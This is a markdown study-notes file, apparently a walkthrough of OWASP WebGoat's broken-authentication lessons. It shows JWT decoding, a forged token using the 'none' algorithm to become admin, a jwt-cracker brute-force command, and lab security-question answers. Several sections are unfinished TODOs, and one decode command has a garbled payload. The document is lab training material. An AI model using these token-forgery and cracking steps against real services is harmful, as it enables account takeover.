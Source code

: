 <!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->
**Table of Contents**  *generated with [DocToc](https://github.com/thlorenz/doctoc)*

- [A2 - Broken Authentication](#a2---broken-authentication)
  - [Authentication Bypass](#authentication-bypass)
  - [JWT tokens](#jwt-tokens)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

# A2 - Broken Authentication

## Authentication Bypass

### 1. Authentication Bypasses

- Hidden inputs
- Removing Parameters
- Forced Browsing

### 2. 2FA Password Reset

TODO

## JWT tokens

### 1. Concept

### 2. Structure of a JWT token

structure: `header.claims.signature`

### 3. Authentication and getting a JWT token

|Browser||Server|
|-|-|-|
|| --- 1. POST /users/login with username and password ---&gt; ||
||| 2. create a JWT with a secret |
|| &lt;--- 3. returns the JWT to the Browser --- ||
|| --- 4. sends the JWT on the Authorization Header ---&gt; ||
||| 5. check JWT signature. Get user information from the JWT |
|| &lt;--- sends response to the client --- ||

### 4. JWT signing

JWT token: `eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2MTE4NjY3OTEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiSmVycnkifQ.Xk8SK-rQYytVU7fQmYSEv8e1e2hnMrR4ljjNIylpNjzKNMx-oZ1Zt35NzmlFXaR5Qkj0YeT25ZFbGiR84UcWAQ`

```sh
$ echo -n eyJhbGciOiJIUzUxMiJ9 | base64 -d
{"alg":"HS512"}

$ echo -n eyJpYXQiOjE2MTE4NjY3OTEsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiSmVycnkifQ== | base64 -d
{"iat":1611866791,"admin":"false","user":"Jerry"}
```

```sh
$ echo -n '{"alg":"none"}' | base64
eyJhbGciOiJub25lIn0=

$ echo -n '{"iat":1611866791,"admin":"true","user":"Jerry"}' | base64
eyJpYXQiOjE2MTE4NjY3OTEsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9
```

Exploit:

JWT token: `eyJhbGciOiJub25lIn0.eyJpYXQiOjE2MTE4NjY3OTEsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9.`

### 5. JWT cracking

JWT token: `eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTYxMTAwMTQ1NiwiZXhwIjoxNjExMDAxNTE2LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.3ngFGIX-epPtQFF53n8nNmO2DWZR05pEeb0wqSeKgvk`

```sh
# npm install --global jwt-cracker
$ time jwt-cracker "eyJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTYxMTAwMTQ1NiwiZXhwIjoxNjExMDAxNTE2LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19.3ngFGIX-epPtQFF53n8nNmO2DWZR05pEeb0wqSeKgvk"
```

TODO jwt-cracker output

$ echo -n eyJhbGciOiJIUzI1NiJ9 | base64 -d
{"alg":"HS256"}

$ echo -n eyJpc3MiOieyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJhdWQiOiJ3ZWJnb2F0Lm9yZyIsImlhdCI6MTYxMTAwMTQ1NiwiZXhwIjoxNjExMDAxNTE2LCJzdWIiOiJ0b21Ad2ViZ29hdC5vcmciLCJ1c2VybmFtZSI6IlRvbSIsIkVtYWlsIjoidG9tQHdlYmdvYXQub3JnIiwiUm9sZSI6WyJNYW5hZ2VyIiwiUHJvamVjdCBBZG1pbmlzdHJhdG9yIl19 | base64 -d
{"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":1611001456,"exp":1611001516,"sub":"tom@webgoat.org","username":"Tom","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}


{"iss":"WebGoat Token Builder","aud":"webgoat.org","iat":1611001456,"exp":1611001516,"sub":"tom@webgoat.org","username":"WebGoat","Email":"tom@webgoat.org","Role":["Manager","Project Administrator"]}

### 6. Refreshing a token

```sh
$ curl -X POST -H -d 'username=webgoat&password=webgoat' localhost:8080/WebGoat/login

{
    "token_type":"bearer",
    "access_token":"XXXX.YYYY.ZZZZ",
    "expires_in":10,
    "refresh_token":"4a9a0b1eac1a34201b3c5659944e8b7"
}
```

The best place to use a JWT token is between server to server communications. 
In a normal web application you are better of using plain old cookies.

### 7. Refreshing a token

TODO find the way to use refresh_token (Jerry) in order to refresh logfile token (Tom)

### 8. Final Challenges

$ echo -n eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0= | base64 -d
{"typ":"JWT","kid":"webgoat_key","alg":"HS256"}

kid = webgoat_key

TODO

## Password reset

### 1. Concept

### 2. Email functionality with WebWolf

### 3. Find out if account exists

### 4. Security questions

username: `tom`
favourite color: `purple`

username: `admin`
favourite color: `green`

username: `larry`
favourite color: `yellow`

### 5. The Problem with Security Questions

The "perfect" security question should be hard to crack, but easy to remember.

### 6. Creating the password reset link

Make sure the link:

- is a unique link with a random token
- can only be used once
- is only valid for a limited amount of time.

Reset the password of Tom (tom@webgoat-cloud.org)

TODO

### 7. How to prevent abusing the password reset function

## Secure Passwords

